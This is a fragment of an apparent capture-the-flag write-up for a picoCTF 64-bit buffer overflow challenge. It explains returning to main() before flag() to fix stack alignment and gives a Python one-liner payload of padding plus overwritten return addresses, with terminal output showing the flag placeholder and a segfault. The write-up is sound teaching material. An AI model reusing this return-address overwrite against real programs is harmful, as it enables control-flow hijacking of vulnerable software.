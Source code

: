 We use:

```
padding + main_address + flag_address   # (Fixes stack alignment)
```

---

### **Why This Works**

- Returning to `main()` first resets the stack correctly.
- Then, execution can safely return to `flag()` without crashing.

This is a common technique when dealing with **buffer overflow exploits in 64-bit binaries**.

step 3

```css
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*64 + b"B"*8 + b"\xd2\x12\x40" + b"\x00"*5 + b"\x36\x12\x40" + b"\x00"*5)' | ./vuln

```

```css
┌─[✔]──[alpha@speed:🍑]──[~/Videos]:
└──╼ $ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*64 + b"B"*8 + b"\xd2\x12\x40" + b"\x00"*5 + b"\x36\x12\x40" + b"\x00"*5)' | ./vuln
Welcome to 64-bit. Give me a string that gets you the flag: 
Welcome to 64-bit. Give me a string that gets you the flag: 
picoctf{}
Segmentation fault (core dumped)
```

online server


```css
```
